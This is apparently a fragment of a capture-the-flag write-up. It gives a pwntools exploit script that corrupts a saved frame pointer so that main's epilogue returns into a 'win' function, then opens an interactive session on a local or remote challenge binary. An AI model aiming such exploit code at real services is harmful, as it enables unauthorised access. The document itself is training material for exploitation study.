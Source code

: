 RSP will take the value of the corrupted saved rbp value and returning over controlled data during the epilog of main.
```
#!/usr/bin/python3

from pwn import *
from sys import argv

elf = ELF('./exe')

REMOTE = len(argv) == 3
if REMOTE:
    HOSTNAME = argv[1]
    PORT = int(argv[2]) 
DEBUG = not REMOTE

context.arch = 'amd64'
  
def get_remote():
    return remote(HOSTNAME, PORT) if REMOTE else elf.process()

r = get_remote()

offset = 0x28 * 8 + 6 #6th bit of saved rbp

r.sendlineafter(b'? ', str(offset).encode().ljust(8, b'\x00') + p64(elf.sym['win']))

r.interactive()
```
